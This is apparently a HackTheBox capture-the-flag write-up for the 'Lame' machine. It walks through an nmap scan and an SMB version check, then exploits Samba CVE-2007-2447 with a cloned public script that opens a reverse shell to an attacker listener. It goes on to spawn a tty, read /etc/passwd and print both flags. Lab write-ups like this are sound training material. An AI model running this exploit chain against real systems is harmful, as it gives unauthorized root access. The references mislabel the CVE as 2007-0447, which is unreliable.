# Lame

## Reconnaissance

### nmap

```
nmap -sV -sC -oA lame 10.129.228.10
```



- Result:
    - Port 21 --> ftp(vsftpd 2.3.4)
    - Port 22 --> ssh(OpenSSH 4.7p1 Debian 8ubuntu1)
    - Port 139 --> samba(netbios-ssn Samba smdb 3.x -4.x)
    - Port 445 --> samba(netbios-ssn Samba smdb 3.0.20-Debian)

- Start enumeration from HackTrick samba and ftp
### Double check smb version

- According the [HackTrick Article](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb)
- Using msfconsole (auxiliary/scanner/smb/smb_version)
- Setting the configuration like RHOSTs
```
> set RHOSTS 10.129.228.10
> run
```



## Exploit + Post Exploitation

- This time is quite simple.
- With the CVE-2007-2447, I can easily exploit the smb server and get 'root' permission

### CVE-2007-2447

- Samba 3.0.20 Arbitrary Command Execution
>This module exploits a command execution vulnerability in Samba versions 3.0.20 through 3.0.25rc3 when using the non-default "username map script" configuration option. By specifying a username containing shell meta characters, attackers can execute arbitrary commands. No authentication is needed to exploit this vulnerability since this option is used to map usernames prior to authentication!

### Exploit 

- First, download the exploit code from [Github](https://github.com/amriunix/CVE-2007-2447)


- Prepare
```
sudo apt install python python-pip
pip install --user pysmb
git clone https://github.com/amriunix/CVE-2007-2447.git
```




- Usage
```
python usermap_script.py <RHOST> <RPORT> <LHOST> <LPORT>
```


- Execute
```
python3 usermap_script.py 10.129.228.10 139 10.10.17.145 1337
```


- Check listener 


- Check python version in victim: Python 2.5.2
```
python --version
```
- Update to fully interactive tty
```
python -c 'import pty; pty.spawn("/bin/bash")'
```


- Check basic information
```
id
whoami
```



- Check /etc/passwd


- Get user flag: ```a518f5f4d0fe5295db48e2477af82efc```


- Get root flag: ```0890e032ff0898b4440844b298a5fb08```


## Reference 

- [(Github)CVE-2007-0447](https://github.com/amriunix/CVE-2007-2447)
- [(Video)CVE-2007-0447](https://www.youtube.com/watch?v=HPP70Bx0Eck)
- [(HackTrick)smb](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb)
- [CVE-2007-0447_1](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/)

###### tags: `HackTheBox` `Lame` `Easy` `CVE-2007-0447` `smb` `linux` 